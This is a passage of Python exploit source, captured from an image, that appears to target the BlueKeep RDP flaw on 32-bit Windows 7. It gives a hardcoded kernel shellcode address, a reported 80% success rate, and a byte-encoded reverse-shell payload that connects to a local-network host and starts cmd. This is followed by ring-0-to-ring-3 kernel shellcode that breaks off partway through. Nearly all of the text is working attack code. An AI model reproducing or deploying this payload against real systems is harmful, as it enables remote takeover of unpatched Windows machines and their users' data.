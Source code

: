 ```Python
    # in my testing against the win7 VM it is around 80% success
    # 0x874ff028
    shellcode_address = b'\x28\xf0\x4f\x87'

    # replace buf with your shellcode
    buf =  b""
    buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
    buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
    buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
    buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
    buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
    buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
    buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
    buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
    buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
    buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
    buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
    buf += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
    buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
    buf += b"\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
    buf += b"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x22\x68"
    buf += b"\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
    buf += b"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
    buf += b"\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
    buf += b"\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
    buf += b"\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
    buf += b"\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
    buf += b"\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
    buf += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
    buf += b"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
    buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"


    # bluekeep_kshellcode_x86.asm
    # ring 0 to ring 3 shellcode
    shellcode = b""
    shellcode += b"\x60\xe8\x00\x00\x00\x00\x5b\xe8\x26\x00\x00\x00"
    shellcode += b"\xb9\x76\x01\x00\x00\x0f\x32\x8d\x7b\x3c\x39\xf8"
    shellcode += b"\x74\x11\x39\x45\x00\x74\x06\x89\x45\x00\x89\x55"
    shellcode += b"\x08\x89\xf8\x31\xd2\x0f\x30\x61\xf4\xeb\xfd\xc2"
    shellcode += b"\x24\x00\x8d\xab\x00\x10\x00\x00\xc1\xed\x0c\xc1"
    shellcode += b"\xe5\x0c\x83\xed\x50\xc3\xb9\x23\x00\x00\x00\x6a"
    shellcode += b"\x30\x0f\xa1\x8e\xd9\x8e\xc1\x64\x8b\x0d\x40\x00"
    shellcode += b"\x00\x00\x8b\x61\x04\x51\x9c\x60\xe8\x00\x00\x00"
    shellcode += b"\x00\x5b\xe8\xcb\xff\xff\xff\x8b\x45\x00\x83\xc0"
    shellcode += b"\x17\x89\x44\x24\x24\x31\xc0\x99\x42\xf0\x0f\xb0"
    shellcode += b"\x55\x08\x75\x12\xb9\x76\x01\x00\x00\x99\x8b\x45"
    shellcode += b"\x00\x0f\x30\xfb\xe8\x04\x00\x00\x00\xfa\x61\x9d"
    shellcode += b"\xc3\x8b\x45\x00\xc1\xe8\x0c\xc1\xe0\x0c\x2d\x00"
    shellcode += b"\x10\x00\x00\x66\x81\x38\x4d\x5a\x75\xf4\x89\x45"
    shellcode += b"\x04\xb8\x78\x7c\xf4\xdb\xe8\xd3\x00\x00\x00\x97"
    shellcode += b"\xb8\x3f\x5f\x64\x77\x57\xe8\xc7\x00\x00\x00\x29"
    shellcode += b"\xf8\x89\xc1\x3d\x70\x01\x00\x00\x75\x03\x83\xc0"
    shellcode += b"\x08\x8d\x58\x1c\x8d\x34\x1f\x64\xa1\x24\x01\x00"
    shellcode += b"\x00\x8b\x36\x89\xf2\x29\xc2\x81\xfa\x00\x04\x00"
    shellcode += b"\x00\x77\xf2\x52\xb8\xe1\x14\x01\x17\xe8\x9b\x00"
    shellcode += b"\x00\x00\x8b\x40\x0a\x8d\x50\x04\x8d\x34\x0f\xe8"
    shellcode += b"\xcb\x00\x00\x00\x3d\x5a\x6a\xfa\xc1\x74\x0e\x3d"
    shellcode += b"\xd8\x83\xe0\x3e\x74\x07\x8b\x3c\x17\x29\xd7\xeb"
    shellcode += b"\xe3\x89\x7d\x0c\x8d\x1c\x1f\x8d\x75\x10\x5f\x8b"
    shellcode += b"\x5b\x04\xb8\x3e\x4c\xf8\xce\xe8\x61\x00\x00\x00"
    shellcode += b"\x8b\x40\x0a\x3c\xa0\x77\x02\x2c\x08\x29\xf8\x83"
    shellcode += b"\x7c\x03\xfc\x00\x74\xe1\x31\xc0\x55\x6a\x01\x55"
```